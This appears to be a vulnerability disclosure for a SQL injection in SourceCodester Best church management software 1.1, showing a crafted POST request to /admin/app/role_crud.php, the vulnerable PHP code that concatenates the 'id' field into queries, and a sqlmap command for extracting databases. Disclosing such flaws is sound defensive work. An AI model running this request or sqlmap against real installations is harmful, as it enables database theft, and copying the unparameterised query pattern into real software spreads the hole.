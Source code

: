 A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/role_crud.php`. Affected is file `/admin/app/role_crud.php`,The manipulation of the argument useremail leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

Request：
```
POST /admin/app/role_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Cookie: session=.eJwlzjsOwjAMANC7eGaoXX-SXgbZcSxYWzoh7k4R65veG-61z-MB22s_5w3uz4QNnCO1q44wx0xZOD2LcXpN61O0MQ5Hb1Y_1chO3AaGrEzFShiaJWMxrtDuacO8N0LTIMXupEp9yMXkwmF8qbgu4utaU-CKnMfc_xuEzxcNCS9C.Z6cWpg.lZDsI5G8bS-uZLspkr5BH3C8pZs; PHPSESSID=b6743umu710ukcu0d3rns2pt2b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update=1&id=*
```

Affect code(`/admin/app/role_crud.php`):
```
......
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();

    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

    $checkItem = $_POST["checkItem"];
    //print_r($_POST);
    $a = count($checkItem);  
    for($i=0;$i<$a;$i++){
    $id = $_POST['id'];

        $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
        $execute = $conn->query($sql);
        
    }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
}
......
```

Exploit:
```
python D:\Tools\sqlmap\sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/21d238f1-5481-41da-8d33-b0b544ae5f22)

![图片](https://github.com/user-attachments/assets/a1bf1402-95fc-45b4-aa7c-f3c36d1d6ae2)

